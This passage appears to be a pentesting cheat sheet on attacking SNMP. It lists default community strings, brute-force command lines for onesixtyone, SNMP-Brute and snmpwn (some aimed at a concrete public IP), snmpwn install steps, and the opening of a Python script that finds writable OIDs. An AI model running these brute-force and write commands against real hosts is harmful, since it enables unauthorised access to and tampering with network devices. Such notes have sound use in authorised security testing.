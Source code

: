   

### **Common Default Credentials in V1/2/2c**

Read-Only Permission : `public`

Read-Write Permission: `private`

### **v1-2-2c Authentication BruteForce Attack**

`onesixtyone -c dict.txt -w 100 -i host.txt`  

`onesixtyone -c dict.txt -w 100 IP.100.120.44`

**Recommendation**

https://github.com/SECFORCE/SNMP-Brute

`python snmp_brute.py -t 91.216.192.182 -p 161 --cisco|linux|windows -f test.txt`

### **v3 Authentication BruteForce Attac**
‣

```bash
**Installation** 
git clone [https://github.com/hatlord/snmpwn.git](https://github.com/hatlord/snmpwn.git)
cd snmpwn
gem install bundler
bundle install
./snmpwn.rb
```

`./snmpwn.rb --hosts hosts.txt --users users.txt --passlist passwords.txt --enclist passwords.txt`

### **Change Values in Machine by SET an OID Value**

- check your permissiun
    
    `snmp-check 91.216.192.182 -w -c private -p 161`
    
- check writable OID with python
    
    ```python
    #!/usr/bin/env python3
    
    import sys
    import re
    
    import shlex
    import subprocess
    from subprocess import PIPE
    
    #Debug flag
    debug = False
    
    #Display help 
    if len(sys.argv)==1 or sys.argv[1].lower()=="-h" or sys.argv[1].lower()=="--help":
        usage={}
        usage["desc"] = """Returns the number of writable OIDs and list them.
    Parses the output of 'snmpwalk' and determines all elements that are readable. The return code of 'snmpset' is used to determine if an element's value can be written, by performing a write with the exact actual value.
    """
        usage["cmd"] = f"Syntax:\t{sys.argv[0]} [OPTIONS] AGENT [PARAMETERS] #see man snmpcmd"
        usage["example"] = f"Example: {sys.argv[0]} -v 2c -c public 192.168.0.3"
        usage["disclaimer"] = """
    DISCLAIMAR: The script might change the value of the writable or cause other effects. Use with care.
    """ 
        print("\n".join(usage.values()))
        sys.exit(0)